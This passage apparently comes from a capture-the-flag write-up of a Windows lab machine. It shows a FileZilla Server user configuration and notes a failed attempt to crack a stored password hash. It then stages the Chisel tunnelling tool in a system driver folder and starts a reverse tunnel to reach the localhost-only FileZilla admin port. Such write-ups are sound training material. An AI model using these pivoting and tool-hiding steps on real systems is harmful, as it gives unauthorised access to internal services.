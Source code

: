                     <Allowed />
                </IpFilter>
                <Permissions>
                    <Permission Dir="C:\Users\superadmin">
                        <Option Name="FileRead">1</Option>
                        <Option Name="FileWrite">0</Option>
                        <Option Name="FileDelete">0</Option>
                        <Option Name="FileAppend">0</Option>
                        <Option Name="DirCreate">0</Option>
                        <Option Name="DirDelete">0</Option>
                        <Option Name="DirList">1</Option>
                        <Option Name="DirSubdirs">1</Option>
                        <Option Name="IsHome">1</Option>
                        <Option Name="AutoCreate">0</Option>
                    </Permission>
                </Permissions>
                <SpeedLimits DlType="0" DlLimit="10" ServerDlLimitBypass="0" UlType="0" UlLimit="10" ServerUlLimitBypass="0">
                    <Download />
                    <Upload />
                </SpeedLimits>
            </User>
        </Users>
    </FileZillaServer>



I tried to break that hash, but failed. I'll look at the hash in [Beyond
Root](#filezilla-hash). I can also confirm the listening admin port:



    <Item name="Admin port" type="numeric">14147</Item>



### Create Tunnels

To interact with this service running on localhost, I'll use
[Chisel](https://github.com/jpillora/chisel). I already have a copy of
the windows exe sitting in `\share`, so I can copy that to Json (I like
the `\windows\system32\spool\drivers\color` directory), and then make
the connection.

On Commando, it looks like:



    PS > .\chisel_windows_amd64.exe server -p 8000 --reverse
    2019/10/03 17:52:52 server: Reverse tunnelling enabled
    2019/10/03 17:52:52 server: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
    2019/10/03 17:52:52 server: Listening on 0.0.0.0:8000...
    2019/10/03 18:21:44 server: proxy#1:R:0.0.0.0:223=>localhost:14147: Listening



On Json:
